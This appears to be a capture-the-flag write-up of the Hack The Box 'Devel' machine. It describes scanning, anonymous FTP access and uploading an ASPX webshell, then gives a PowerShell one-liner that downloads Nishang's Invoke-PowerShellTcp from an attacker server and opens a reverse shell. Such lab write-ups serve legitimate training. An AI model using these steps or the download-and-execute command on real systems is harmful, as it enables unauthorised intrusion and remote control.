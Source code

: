 <p align="center">
  <img width="300" src="https://user-images.githubusercontent.com/43796175/107217985-ff302900-69dc-11eb-999b-b1da568d1ff9.jpg" alt="DEVEL: Write Up">
</p>


# 01: Information Gathering

For starting, run nmap with a basic scan:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400057-70e89f80-6acf-11eb-95f3-6870ccbbe0b0.jpg"></p>

Two open ports can be seen, 21 FTP and 80 HTTP. Now, run again nmap but this time with an more advanced scan against the ports found:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400771-274c8480-6ad0-11eb-84f7-7b9a8b83b733.jpg"></p>

In this point, you can think about login in FTP with Anonymous credentials (port 21) and go more deep through HTTP and fuzzing (port 80).

# 02: Threat Modeling

Login in FTP with username and password "Anonymous" is possible:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107401864-4bf52c00-6ad1-11eb-9a7b-f795670ea890.jpg"></p>

Think if you can reach any files in the directory through which you had FTP access. For example, try to get through HTTP request the image "welcome.png":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107403079-b0fd5180-6ad2-11eb-80f8-092abfe6745e.jpg"></p>

Perfect, now you can try upload a webshell and visualize it in the browser:

# 03: Vulnerability Analysis

You can search the webshell necessary simply googling it. I found the next webshell which work fine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413191-77324800-6ade-11eb-9dea-e66478f2d98e.jpg"></p>

<p align="center">https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx</p>

With FTP upload the webshell, using "put" command for this purpose:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413380-b1034e80-6ade-11eb-9557-089ca6cb717b.jpg"></p>

Try to see the webshell through browser, in http://10.10.10.5/cmdasp.aspx:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413825-34bd3b00-6adf-11eb-825d-a8d618e3ae18.jpg"></p>

You can see that is possible run commands efectly, then the more obviusly thought is get a reverse shell. For this, use Nishang that is a framework and collection of scripts and payloads which enables usage of PowerShell, in concret, you go to use the module of shells PS "Invoke-PowerShellTcp.ps1":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107414596-39362380-6ae0-11eb-84c9-9d326bf577c9.jpg"></p>

<p align="center">https://github.com/samratashok/nishang/tree/master/Shells</p>

# 04: Exploitation

Download the RAW file of this module:

A goood approach is execute the reverseShell in memory, like Nishang project describe:

*Method 1. Use the in-memory dowload and execute: Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.*

The next line is used for this:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

# 05: Post-Exploitation

